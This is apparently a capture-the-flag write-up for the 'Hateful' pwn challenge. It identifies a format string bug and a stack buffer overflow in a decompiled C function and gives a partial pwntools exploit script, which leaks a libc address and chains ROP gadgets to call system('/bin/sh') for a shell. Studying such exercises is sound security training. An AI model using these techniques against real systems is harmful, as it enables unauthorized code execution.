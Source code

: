 # Hateful

Category: pwn \
Difficulty: Easy

> You hate your Boss??? \
You wanna just trash talk him but you are afraid he would fire you??? \
Dont worry we got you! send us the message you want to send him and we will take care of everything for you!

`nc 52.59.124.14:5020`

Attachments: `hateful` (binary), `libc.so.6` (libc), `ld-linux-x86-64.so2`

## Setup

Patch the binary with the provided libc file. I used a tool called `pwninit`.

There are two vuln in `send_message()`:

```c
void send_message(void)

{
  char email_buf [112];
  char buf [1008];
  
  puts("please provide your bosses email!");
  printf(">> ");
  __isoc99_scanf("%99s%*c",email_buf);
  printf("email provided: ");
  printf(email_buf);
  putchar(10);
  puts("now please provide the message!");
  fgets(buf,0x1000,stdin);
  puts("Got it! we will send the message for him later!");
  return;
}
```

1. Format string

```c
printf(email_buf);  // can use %s to print stuff on stack
```

We can use this to leak addresses off the stack, and I used this to leak a libc address to call `system`

2. Buffer overflow

```c
char buf [1008];
// some code in the middle...
fgets(buf,0x1000,stdin);
```

Good ol' buffer overflow (with no canary!). We can use ROP to pop `/bin/sh` address into rdi and call `system()` to get a shell, and read the flag.

## Script (partial)

```py
def do_pwn(io: process | remote) -> None:
    sla = io.sendlineafter
    sa = io.sendafter
    sl = io.sendline
    sd = io.send
    rl = io.recvline
    ru = io.recvuntil
    rc = io.recv
    elf = ELF(bin_path)
    libc = elf.libc
    rop = ROP([elf, libc])
    def exploit() -> None:
        info(f"got puts {hex(elf.got['puts'])} got plt {hex(elf.plt['puts'])}")
        sla(b">> ", "yay")
        sla(b">> ", flat(
            b"AAAAAAAAAAAA%8$s",
            p64(elf.got['printf']),
            b"AAAAAAAAAAAAAAAA%5$p%6$p%7$p%8$p",
        ))
        # pause()
        addr = u64(ru(b"\x7f")[-6:].ljust(8, b"\x00"))
        success(f"Leaked address: {hex(addr)}")
        libc.address = addr - libc.sym['printf']
        sla(b"message!", flat(
            b"A" * 1016,
            p64(rop.ret.address + libc.address),
            p64(rop.rdi.address + libc.address),
            p64(libc.search(b"/bin/sh\0").__next__()),
            p64(libc.sym["system"]),
        ))
        return
    exploit()
```

## Flag

`ENO{W3_4R3_50RRY_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}`

